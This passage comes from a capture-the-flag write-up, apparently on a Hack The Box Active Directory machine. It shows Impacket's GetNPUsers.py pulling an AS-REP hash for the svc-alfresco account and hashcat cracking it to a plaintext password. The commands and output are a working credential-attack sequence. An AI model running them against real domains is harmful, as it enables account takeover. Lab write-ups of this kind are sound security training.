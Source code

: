 Now I can use the Impacket tool `GetNPUsers.py` to try to get a hash for each user, and I find one for the svc-alfresco account:

```

root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c$d849f59924ba2b5402b66ee1ef332c2c827c6a5f972c21ff329d7c3f084c8bc30b3f9a72ec9db43cba7fc47acf0b8e14c173b9ce692784b47ae494a4174851ae3fcbff6f839c833d3740b0e349f586cdb2a3273226d183f2d8c5586c25ad350617213ed0a61df199b0d84256f953f5cfff19874beb2cd0b3acfa837b1f33d0a1fc162969ba335d1870b33eea88b510bbab97ab3fec9013e33e4b13ed5c7f743e8e74eb3159a6c4cd967f2f5c6dd30ec590f63d9cc354598ec082c02fd0531fafcaaa5226cbf57bfe70d744fb543486ac2d60b05b7db29f482355a98aa65dff2f

```

### Crack Hash

Now I can use `hashcat` to break the hash:

```

root@kali# hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
...[snip]...
$krb5asrep$23$svc-alfresco@HTB:37a6233a6b2606aa39b55bff58654d5f$87335c1c890ae91dbd9a254a8ae27c06348f19754935f74473e7a41791ae703b95ed09580cc7b3ab80e1037ca98a52f7d6abd8732b2efbd7aae938badc90c5873af05eadf8d5d124a964adfb35d894c0e3b48$
5f8a8b31f369d86225d3d53250c63b7220ce699efdda2c7d77598b6286b7ed1086dda0a19a21ef7881ba2b249a022adf9dc846785008408413e71ae008caf00fabbfa872c8657dc3ac82b4148563ca910ae72b8ac30bcea512fb94d78734f38ae7be1b73f8bae0bbfb49e6d61dc9d06d055004
d29e7484cf0991953a4936c572df9d92e2ef86b5282877d07c38:s3rvice
...[snip]...

```
